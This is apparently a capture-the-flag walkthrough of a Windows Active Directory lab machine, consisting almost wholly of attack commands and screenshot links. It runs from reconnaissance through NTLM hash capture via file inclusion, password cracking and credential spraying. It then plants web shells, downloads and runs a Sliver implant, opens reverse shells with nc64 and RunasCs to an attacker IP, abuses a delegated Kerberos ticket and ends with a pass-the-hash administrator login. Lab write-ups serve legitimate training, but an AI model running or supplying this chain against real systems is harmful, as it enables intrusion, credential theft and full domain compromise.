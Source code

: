 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.187
```
![image](https://github.com/user-attachments/assets/da0db716-6fc7-4868-9063-f8eb482b0699)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.187/FUZZ -fs 301 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/2850a394-3d54-4977-af3e-06b6a0943679)

```
http://10.10.11.187/js/
http://10.10.11.187/webalizer
```
![image](https://github.com/user-attachments/assets/a46bbaff-8c71-4086-83f8-508087d7cbc5)

![image](https://github.com/user-attachments/assets/8c539968-e03e-4566-86fb-d881f66241e1)

![image](https://github.com/user-attachments/assets/a6c97e05-0847-4dec-9825-f516fe4e5919)

```
smbclient -L \\\\10.10.11.187\\
```
![image](https://github.com/user-attachments/assets/5bd1feb8-6623-4ea0-9228-3a18044dd1ed)

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://flight.htb/ -H "Host: FUZZ.flight.htb" -fs 7069 -fw 22
http://school.flight.htb/
```
![image](https://github.com/user-attachments/assets/aee893f0-607c-4bcf-a79f-6e64c1b3b467)

![image](https://github.com/user-attachments/assets/3544e75a-a72e-4445-a9a8-2d8425e73698)

![image](https://github.com/user-attachments/assets/afe1a807-2a86-4823-bc31-ed7d4613d2ec)

![image](https://github.com/user-attachments/assets/afd9a8ae-b88a-4ec2-9bf9-8b7c2b3a2282)


```
http://school.flight.htb/index.php?view=C:\Windows\System32\drivers\etc\hosts
http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```
![image](https://github.com/user-attachments/assets/bb59771b-0276-4f81-9240-b5d3b50f927f)

![image](https://github.com/user-attachments/assets/556c0fb2-f7c6-4da5-ba99-f436de0fa2d4)

```
responder -I tun0 -v
http://school.flight.htb/index.php?view=//10.10.14.10/htb
```
![image](https://github.com/user-attachments/assets/1e1626e5-4301-4a47-a35b-c62de8278213)

![image](https://github.com/user-attachments/assets/2b28de17-b9a4-4712-8e0b-a1760f40fdc4)

![image](https://github.com/user-attachments/assets/5766689f-d589-4935-8e18-ab27fcefeaf7)

```
john hash -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/cdd13c88-49a6-44dd-942d-de2ce714914c)

```
crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13'
smbclient -L \\\\10.10.11.187\\ -U flight.htb/svc_apache
smbclient \\\\10.10.11.187\\Users -U flight.htb/svc_apache
```
![image](https://github.com/user-attachments/assets/e294c7ed-cbe6-446f-a727-df2d691adf9b)

![image](https://github.com/user-attachments/assets/7c6e5380-1057-47e2-af76-99b635c8a462)

```
ldapdomaindump -u flight\\svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
```
![image](https://github.com/user-attachments/assets/c3ebc833-0519-4560-b505-e72ff079fd02)

![image](https://github.com/user-attachments/assets/dcc8cf1f-0451-40b7-adb8-519e15e6fa2a)

```
cat domain_users.grep | grep "Domain Users" | awk -F' ' '{print $1}'
```
![image](https://github.com/user-attachments/assets/35ea9369-f4c7-4d9d-af70-c7aa79dbf8f3)

```
crackmapexec smb 10.10.11.187 -u users_all2 -p 'S@Ss!K@*t13'
smbclient \\\\10.10.11.187\\Users -U flight.htb/S.Moon
```
![image](https://github.com/user-attachments/assets/b2c28c8f-9b78-4ea5-a303-42bb3f8eb1bc)

![image](https://github.com/user-attachments/assets/e5025d57-1e46-460d-8c34-5a16dc3a7a12)

```
responder -I tun0 -v
git clone https://github.com/Greenwolf/ntlm_theft
cd ntlm_theft
python3 ntlm_theft.py --generate all --server 10.10.14.67 --filename htb
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
use Shared
put htb/htb.scf
put htb/desktop.ini
```
![image](https://github.com/user-attachments/assets/10fbe7bd-87a5-48e3-bb56-023c24d00cc5)

![image](https://github.com/user-attachments/assets/b88fa92a-a028-4cbc-b5c2-66c7873b7b72)

![image](https://github.com/user-attachments/assets/f4e28f04-bad2-4f94-a7d0-a060cf8d571d)

![image](https://github.com/user-attachments/assets/1a94094b-c242-4f12-87c2-6001b7bd9647)

```
john hash2 -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/c21d7cab-6462-4292-b2c1-78d94c8ca787)

```
smbmap -H flight.htb -u 'c.bum' -p 'Tikkycoll_431012284’
smbclient \\\\10.10.11.187\\Users -U flight.htb/c.bum
```
![image](https://github.com/user-attachments/assets/5f8f8e57-28d7-4b56-81ee-87b0b30ceadb)

![image](https://github.com/user-attachments/assets/302ae4c5-18e6-46f8-a03b-eca6ae622004)

![image](https://github.com/user-attachments/assets/1684f74d-d5b0-47b5-b676-18ac75e40f08)

```
shell.php
impacket-smbclient c.bum:'Tikkycoll_431012284'@flight.htb
use Web
cd flight.htb
put shell.php
curl 'http://flight.htb/shell.php?c=whoami'
```
![image](https://github.com/user-attachments/assets/cdaf2df1-802d-475f-b0d7-19d04a63c64e)

![image](https://github.com/user-attachments/assets/ac9f6582-c7d2-4c25-b307-d6f622182fb1)

![image](https://github.com/user-attachments/assets/7752f16c-5622-40f8-89e1-f73e954bde5a)

```
curl https://sliver.sh/install|sudo bash
sliver
service sliver start
```
![image](https://github.com/user-attachments/assets/7e2836e1-809d-41d9-bbb1-41ffe9863cf6)

![image](https://github.com/user-attachments/assets/7c22997e-2be4-4fdc-b72f-d3482509537b)

```
generate --os windows --arch 64bit --mtls 10.10.14.10 --reconnect 60 --save htb.exe
mtls
sudo python3 -m http.server 80
curl 'http://flight.htb/shell.php?c=powershell%20-c%20%22wget%2010.10.14.10%2Fhtb.exe%20-usebasicparsing%20-outfile%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe%3B%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe’
powershell -c "wget 10.10.14.67/htb.exe
-usebasiparsing -outfile C:\users\public\music\htb.exe; C:\users\public\music\htb.exe
sessions -i ce7
whoami
```
![image](https://github.com/user-attachments/assets/fdb9c34e-789b-44ed-8176-f8c7b6136895)

![image](https://github.com/user-attachments/assets/160a9bd1-dd78-4613-ab90-c23219853b1e)

```
upload RunasCs.exe
shell
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/0afb6079-5023-44bc-b3c8-cb525f89e915)

![image](https://github.com/user-attachments/assets/119887a8-bf17-43ee-a172-7b3faaf16e3d)

```
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
cd C:\ProgramData
powershell -c wget 10.10.14.10/chisel_1.9.1_windows_amd64 -outfile c.exe
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
.\c.exe client 10.10.14.10:8000 R:8001:127.0.0.1:8000
```
![image](https://github.com/user-attachments/assets/bdca86b0-a387-4e04-9c76-50411f413638)

![image](https://github.com/user-attachments/assets/6dcb86d6-3447-4771-a36d-de86ae4a3b3a)

```
http://127.0.0.1:8001/
```
![image](https://github.com/user-attachments/assets/a4d6eb09-9059-4a20-b467-ffca60eb1b28)

![image](https://github.com/user-attachments/assets/fc837a14-ffb6-4d0d-bc6d-1f383582e673)

```
[Open another terminal]
generate --os windows --arch 64bit --mtls 10.10.14.10 --reconnect 60 --save htb.exe
Mtls
sessions -i 78218585
upload RunasCs.exe
Shell
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/3a113998-1dc5-4410-8b61-c484bab5cf4b)

![image](https://github.com/user-attachments/assets/4a91b011-9e9b-45ec-9fb2-c69966ee2151)

```
[Open another terminal]
OR
powershell -c wget 10.10.14.10/RunasCs.exe -outfile RunasCs.exe
rlwrap -cAr nc -lnvp 443
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
whoami /all
```
![image](https://github.com/user-attachments/assets/63c1f959-50cd-43ae-a76a-e5fc03b6392c)

![image](https://github.com/user-attachments/assets/c612edcb-0edf-4b3d-ab89-7c8d20265d61)

```
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
cd C:\inetpub\development
powershell -c wget 10.10.14.10/cmd.aspx -outfile cmd.aspx
http://127.0.0.1:8001/cmd.aspx
```
![image](https://github.com/user-attachments/assets/a069aa36-aed7-4d57-8d62-f0e1dcda6314)

![image](https://github.com/user-attachments/assets/5d06d231-b107-4302-9ea5-0e63ef8330f0)

```
wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
cd C:\ProgramData
powershell -c wget 10.10.14.10/nc64.exe -outfile nc64.exe
cd C:\inetpub\development
powershell -c wget 10.10.14.10/cmd.aspx -outfile cmd.aspx
http://127.0.0.1:8001/cmd.aspx
/c \ProgramData\nc64.exe -e cmd 10.10.14.10 443
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/9615f407-2b80-4d81-8d9b-c116f2ce3292)

![image](https://github.com/user-attachments/assets/80674471-d7b9-4eac-ba95-2f71b28b502e)

![image](https://github.com/user-attachments/assets/ab427c83-1de6-4ed4-a7f3-15c3a63f98c6)

```
cd C:\ProgramData
powershell -c wget 10.10.14.10/Rubeus.exe -outfile Rubeus.exe
.\rubeus.exe tgtdeleg /nowrap
```
![image](https://github.com/user-attachments/assets/283dcf4b-40a0-4cad-a920-d2abe009304a)

```
cat ticket.b64 | base64 -d > ticket2.kirbi
```
![image](https://github.com/user-attachments/assets/67f1e5b6-19eb-4921-9182-04941cc242ac)

```
impacket-ticketConverter ./ticket3.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
sudo service virtualbox-guest-utils stop
sudo ntpdate -s 10.10.11.187
10.10.11.187 g0.flight.htb
./secretsdump.py -k -no-pass g0.flight.htb -just-dc-user administrator
```
![image](https://github.com/user-attachments/assets/2ba39d78-6c3e-4cab-965e-f328debb03c0)

![image](https://github.com/user-attachments/assets/67cffcf8-2ac6-483a-9c3e-c324d580c59b)

```
impacket-psexec administrator@flight.htb -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
type ..\..\Users\Administrator\Desktop\root.txt
```
![image](https://github.com/user-attachments/assets/91e04112-107e-42f4-b399-c1d51640eb66)
